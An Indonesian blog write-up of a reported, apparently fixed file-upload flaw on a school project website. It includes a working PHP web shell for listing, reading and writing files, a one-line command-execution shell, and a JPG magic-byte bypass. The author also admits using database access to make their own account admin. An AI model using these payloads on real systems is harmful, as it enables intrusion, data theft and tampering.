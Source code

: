 ```yaml
---
title: "Database Control + Server Configuration Leaked via Arbitrary File Upload"
date: "2025-06-29"
description: "PoC of Vulnerability in asessment24.site"
categories: [
    "Blog"
]
tags : [
    "Proof of Concept"
]
image: database.png
---
```

##### tes
> Kerentanan ini sudah dilaporkan dan sudah difix

Singkat cerita, saya diberi tau oleh seseorang terkait sebuah website khusus jurusan `RPL`, di website ini diberikan fitur seperti Register, Login, File Upload dll (Kelas saya tidak diberitahu karna memang kelas saya tidak diajar oleh Pak `Rian`, dan sepertinya web ini khusus untuk mengumpulkan project-project yang diajar oleh Pak `Rian`)

Dan begini tampilan website nya (setelah login),

![](gambar.png)

Keren nya disini, ada fitur untuk profile, dan tentu bisa diupdate, disini kita bisa upload image untuk diset sebagai profile gambar kita,

![](profile.png)

Dan ya, disini lah juga kerentanannya berada, yaitu pada fitur `Upload Image` pada Profile. Btw, kerentanan pada fitur `Upload Image` ini akan tidak berguna jika kita tidak dapat endpoint access terhadap gambar yang telah kita kita upload, dan di website ini, seluruh gambar siswa disimpan di direktori `/assets`, yang artinya kita dapat access endpoint terhadap file yang telah kita upload.

Yang pertama, disini saat kita memilih file untuk kita dapat upload, memang disuruh untuk menginputkan file yang berekstensi gambar (`png, jpg, dll`) tapi disini alih alih kita menginputkan ekstensi file tersebut, kita dapat menginputkan file dengan ekstensi lain, seperti `txt`, dan... `php`

<video controls width="100%">
  <source src="/videos/yesking.mp4" type="video/mp4">
  Browser lo gak support video tag.
</video>


Nah, catatan nya disini, kalo yg kita upload itu adalah ekstensi file code, maka saat kita mencoba akses lewat `/assets` tidak bisa karna otomatis langsung ke download, untuk bypass ini, kita bisa bikin seolah olah gambar kita adalah gambar jpeg (gambar jpeg ketika diakses dapat mengeluarkan output raw dari file nya)

script PHP untuk LFI:
```php
<?php
if (isset($_GET['ls'])) {
    echo "<pre>";
    $path = $_GET['ls'] ?: '.';
    foreach (scandir($path) as $file) {
        echo $file . "\n";
    }
    echo "</pre>";
    exit;
}

if (isset($_GET['read'])) {
    echo "<pre>";
    echo htmlspecialchars(file_get_contents($_GET['read']));
    echo "</pre>";
    exit;
}

if (isset($_GET['write']) && isset($_POST['data'])) {
    file_put_contents($_GET['write'], $_POST['data']);
    echo "File written.";
    exit;
}
?>
```
`"Kenapa LFI? kok ga langsung RCE aja?"`

Sebelumnya udah nyoba untuk pake script RCE,
```php
<?php system($_GET["cmd"]); ?>
```
tapi gagal yang karna diblacklist oleh `Firewall` bawaan dari server, biasanya, untuk `exec`, `shell_exec`, dan `system()` diblacklist, dan ini berlaku juga untuk server hosting yang gratisan maupun berbayar

Nah, disini, untuk bypassing nya agar script PHP nya tetap bisa berjalan, kita bisa menambahkan `Magic Byte` dan `Header Byte` dari file format `JPG`

![](xxd.png)

dan juga saat rename file script shell nya menjadi `shell.php.jpg`

![](fileformat.png)

dan setelah diupload, tinggal access aja ke endpoint `/assets`

![](passwd.png)

Dan itu untuk yang LFI, sekarang yang `Database`, karna kita udh punya LFI nya, sekarang kita tinggal nyari file `config.php` atau `koneksi.php`, dan karna ini LFI, disini perlu usaha ekstra untuk mencari file nya di tiap tiap direktori

![](db.png)

disini saya tinggal copy config nya dan tambahkan beberapa fungsi untuk menampilkan data nya berdasarkan query input,

![](dbtable.png)

dan disini saya punya hak akses tinggi, bisa create, read, update, dan `delete`.

Dan segitu saja Proof of Concept dari Vulnerability yang telah saya temukan, semoga bisa membantu (btw saya gak ngelakuin hal illegal selain update role saya sendiri jadi `admin` :v)



